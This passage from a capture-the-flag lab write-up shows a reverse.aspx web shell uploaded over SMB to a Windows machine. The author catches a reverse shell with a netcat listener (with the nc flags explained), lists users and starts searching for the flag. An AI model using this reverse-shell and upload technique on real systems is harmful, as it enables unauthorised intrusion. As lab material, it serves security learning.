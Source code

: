 ```
smb: \> put reverse.aspx
putting file reverse.aspx as \reverse.aspx (2,8 kb/s) (average 2,8 kb/s)
smb: \> ls
  .                                   D        0  Thu May 11 11:42:25 2023
  ..                                  D        0  Thu May 11 11:42:25 2023
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  reverse.aspx                        A     3672  Thu May 11 11:42:25 2023

		7735807 blocks of size 4096. 4949699 blocks available
```

I listened via `netcat`, I  went to the web page at `/nt4wrksv/reverse.aspx` and finally got a working reverse shell.

```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.110.57 49869
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
*  The `-l` flag instructs nc to listen for incoming connections. It puts nc into listening mode, waiting for a connection to be established.
* The `-n` flag disables DNS resolution. It prevents nc from attempting to resolve hostnames to IP addresses, making the connection process faster.
* The `-v` flag enables verbose output. It causes nc to display more detailed information about the connection, including incoming and outgoing data.
* The `-p` flag specifies the port number to listen on.

Once inside, I first saw which users were active on the machine.

```
c:\Windows\System32>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Bob                      DefaultAccount           
Guest                    
The command completed with one or more errors.

```

After that I searched for the first flag, moving into the file system, and found it on Bob's desktop.

```
c:\Windows\System32>cd ..
cd ..

c:\Windows>cd ..
cd ..

c:\>cd Users
cd Users

c:\Users>cd Bob
cd Bob

c:\Users\Bob>dir  
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

```